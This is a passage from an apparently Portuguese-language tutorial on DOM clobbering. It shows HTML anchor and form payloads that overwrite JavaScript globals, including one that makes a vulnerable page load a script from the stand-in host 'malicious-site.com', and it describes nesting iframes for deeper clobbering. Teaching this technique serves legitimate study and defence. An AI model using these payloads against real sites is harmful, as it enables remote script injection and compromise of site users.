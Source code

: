 Isso permite a um invasor criar um objeto e, em seguida, definir uma de suas propriedades. Suponha que o código vulnerável seja:

```javascript
var config = window.config || {};
var script = document.createElement('script');
script.src = config.apiUrl;
document.body.appendChild(script);
```

O invasor pode *clobber* `config` e sua propriedade `apiUrl` com o seguinte *payload*:

```html
<a id="config"></a>
<a id="config" name="apiUrl" href="//malicious-site.com/payload.js"></a>
```

Aqui, `window.config` se torna um `HTMLCollection` contendo as duas âncoras. A expressão `config.apiUrl` acessa o segundo elemento `<a>` através de seu atributo `name`, e o valor resultante usado em `script.src` será o `href` malicioso.

#### Técnica 3: Clobbering de Três ou Mais Níveis

Combinando as duas técnicas anteriores, é possível alcançar profundidades de *clobbering* ainda maiores. Um invasor pode criar uma `HTMLCollection` de elementos `<form>`, permitindo três ou mais níveis de acesso a propriedades.

Considere um código que acessa `configs.production.apiKey`. Um invasor pode construir essa estrutura da seguinte forma:

```html
<form id="configs"></form>
<form id="configs" name="production">
  <input name="apiKey" value="CLOBBERED_VALUE">
</form>
```

A análise passo a passo deste *payload* é:

1. `window.configs` se torna um `HTMLCollection` por causa dos IDs duplicados.
2. `configs.production` acessa o segundo formulário dentro da coleção através de seu atributo `name`.
3. `configs.production.apiKey` acessa o elemento `<input>` dentro do segundo formulário através de seu atributo `name`.
4. O valor final pode ser lido através da propriedade `.value` do *input*.

#### Técnica 4: O Uso de `<iframe>` para Níveis Infinitos

A técnica mais avançada para *clobbering* profundo envolve o uso de `<iframe>`s. Quando um `<iframe>` é criado com um atributo `name`, uma propriedade com esse nome é criada no objeto `window` da página pai. Essa propriedade aponta para o objeto `window` do próprio `<iframe>`. Isso permite que um invasor crie um novo escopo de `window` aninhado, no qual ele pode novamente injetar HTML para *clobber* variáveis. Ao aninhar `<iframe>`s uns dentro dos outros, é teoricamente possível criar uma cadeia de *clobbering* de profundidade ilimitada, embora na prática isso seja limitado por restrições de *parsing* e pela complexidade do *payload*.

### Seção 2.2: Construindo Payloads Eficazes: Controle de Tipo e Valor
